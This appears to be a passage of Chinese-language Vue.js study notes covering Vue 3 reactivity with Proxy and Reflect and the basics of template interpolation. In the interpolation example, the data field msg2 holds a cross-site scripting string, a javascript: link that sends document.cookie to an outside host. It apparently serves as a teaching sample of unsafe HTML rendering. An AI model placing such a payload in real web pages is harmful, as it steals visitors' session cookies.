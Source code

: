 > 结合后续的$forceUpdate()学习。



### 1.7 vue3借助Proxy-Reflect实现数据双向绑定

```js
//vue3.0里面借助Proxy-Reflect实现属性的响应式劫持处理。
const target = {
    a:'aaa',
    b:'bbb'
}
const proxy = new Proxy(target,{
    get(target,key,receiver){
        // console.log('get方法执行了哦...',target,key,receiver)
        return Reflect.get(target,key,receiver)
    },
    set(target,key,value,receiver){
        // console.log('set方法执行了哦...',target,key,value,receiver)
        Reflect.set(target,key,value,receiver)
        // 写更新视图的方法
    },
    deleteProperty(target,key){
        // console.log('删除方法执行了o...',target,key)
        Reflect.deleteProperty(target,key)
        // 写更新视图的方法
    }
})
console.log(proxy.a) //获取
proxy.a = 'aaaa'     //设置
proxy.c = 'cccc'     //增加一个额外的c属性
delete proxy.a       //删除代理对象的属性a

console.log(target)
```



## 二. 模板与指令

### 2.1 模板语法

####  2.1.1 插值 

​	a.文本 {{ }}   声明一条数据，然后用特殊的模板语法将其渲染出来（声明式渲染）

​       它使用的是“Mustache[ˈmʌstæʃ]”语法 (即双大括号)

```vue
let vm = new Vue({     
            el:"#app",
            data:{   
                msg2:`<a href=javascript:location.href='http://www.baidu.com?cookie='+document.cookie>click</a>`
            }   
        })
```
